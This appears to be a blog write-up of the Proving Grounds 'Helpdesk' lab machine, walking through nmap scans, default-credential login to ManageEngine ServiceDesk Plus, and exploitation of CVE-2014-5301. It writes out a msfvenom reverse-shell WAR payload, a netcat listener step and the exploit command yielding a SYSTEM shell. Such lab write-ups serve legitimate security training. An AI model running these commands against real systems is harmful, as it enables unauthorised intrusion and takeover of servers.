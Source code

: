 ```yaml
---
layout: single
title: Helpdesk - Proving grounds Practice
date: 2023-06-15
classes: wide
header:
  teaser: /assets/images/windows.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - windows
  - easy
---
```


## Windows

![](/assets/images/windows.png)

This blog post is a writeup of the Helpdesk machine from Proving grounds practice.

### Summary
------------------
- ManageEngine allows us to access with the default credentials.
- Having a valid user, we are able to exploit CVE-2014-5301 and get a reverse shell as a privileged user.

### Detailed steps
------------------

### Enumeration

I started just enumerating the open ports with:
```
nmap -Pn -p- 192.168.152.43
```
![nmap1](\assets\images\pg-practice-helpdesk\1.JPG)

Knowing which ports are open, I executed an agressive nmap with:
```
nmap -A -Pn --script=vuln 192.168.152.43 -p 135,139,445,3389,8080 -o nmapa.txt
```
![nmap2](\assets\images\pg-practice-helpdesk\2_2.JPG)

As we can see in the last picture, there is a web server in 8080 port.
By accessing the website I was able to see a ManageEngine ServiceDesk Plus `7.6.0`

![manageengine](\assets\images\pg-practice-helpdesk\3.JPG)

### Explotation

This ManageEngine version is vulnerable to `CVE-2014-5301`

```
Vulnerability:  CVE-2014-5301
System Vulnerable: ManageEngine 
Vulnerability Explanation: Directory traversal vulnerability in ServiceDesk Plus MSP v5 to v9.0 v9030; AssetExplorer v4 to v6.1; SupportCenter v5 to v7.9; IT360 v8 to v10.4.  
Severity: high
```

In order to gain access I downloaded a python exploit from: https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py
 - To exploit this vulnerability you need to have a valid username and password so I decided to search the default credentials used by ManageEngine.

	Google search:
	![manageengine2](\assets\images\pg-practice-helpdesk\8.JPG)

	To my surprise, it worked
	![manageengine3](\assets\images\pg-practice-helpdesk\9.JPG)

	![manageengine5](\assets\images\pg-practice-helpdesk\10.JPG)

 - Now, having our valid credentials, it is necessary to create the payload in a WAR file with `mfsvenom`:
	```
	msfvenom -p java/shell_reverse_tcp LHOST=192.168.45.231 LPORT=5555 -f war > shell.war
	```
	![manageengine6](\assets\images\pg-practice-helpdesk\7.JPG)
	
 - Before executing the payload I opened a netcat listener on 5555 port.
	![manageengine7](\assets\images\pg-practice-helpdesk\6.JPG)
	
 - The last step was run the exploit indicating the target, a valid credentials and our WAR file:
 ```
 ./exploit.py 192.168.152.43 8080 administrator administrator shell.war
 ```
 ![manageengine8](\assets\images\pg-practice-helpdesk\11.JPG)
 

After running the exploit I was able to catch the reverse shell as a high privileged user.
![manageengine9](\assets\images\pg-practice-helpdesk\12.JPG)

Being NT Authority\System I could find the root flag in Administrator's desktop
![flag1](\assets\images\pg-practice-helpdesk\25.JPG)
![flag2](\assets\images\pg-practice-helpdesk\rootf.JPG)